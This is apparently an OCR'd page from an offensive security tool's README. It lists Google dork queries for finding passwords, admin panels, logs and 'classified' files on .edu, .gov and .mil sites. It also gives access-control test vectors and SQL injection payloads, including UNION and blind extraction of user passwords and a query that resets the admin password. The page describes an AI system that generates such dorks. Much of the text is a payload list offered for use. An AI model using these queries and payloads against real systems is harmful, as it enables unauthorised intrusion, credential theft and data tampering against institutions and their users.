 ##  Advanced Google Dorking Strategies

### Target-Specific Dorks:
```
# Educational Institutions
site:edu filetype:pdf "password" | "login" | "credentials"
site:edu inurl:admin | inurl:wp-admin | inurl:administrator
site:edu "index of /" students | grades | academic

# Corporate Targets  
site:target.com filetype:xls | filetype:xlsx "password" | "confidential"
site:target.com inurl:api | inurl:v1 | inurl:swagger | inurl:graphql
site:target.com "error" | "exception" | "stack trace" filetype:log

# Government/Military
site:gov filetype:pdf "classified" | "restricted" | "internal use"
site:mil inurl:login | inurl:secure | inurl:restricted
```

### AI-Generated Dynamic Dorks:
The AI system generates contextual dorks based on:
- Target industry and type
- Technology stack detected
- Previous findings and patterns
- Current security trends
- Known vulnerability patterns

##  OWASP Top 10 Elite Testing

### A01 - Broken Access Control
```python
# Advanced Access Control Tests
test_vectors = [
    # Horizontal Privilege Escalation
    "GET /user/profile?id=1 -> /user/profile?id=2",
    "POST /api/users/me -> /api/users/admin",
    
    # Vertical Privilege Escalation  
    "user role -> admin role via parameter manipulation",
    "guest access -> authenticated user via session manipulation",
    
    # Direct Object References
    "/documents/sensitive.pdf via forced browsing",
    "/admin/users/delete/1 via URL manipulation"
]
```

### A03 - Injection Attacks
```python
# Elite SQL Injection Payloads
advanced_sqli = [
    # Time-based blind
    "admin' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--",
    
    # Union-based extraction
    "' UNION SELECT username,password FROM users WHERE '1'='1",
    
    # Boolean-based blind
    "' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'--",
    
    # Second-order injection
    "admin';UPDATE users SET password='hacked' WHERE username='admin'--"
```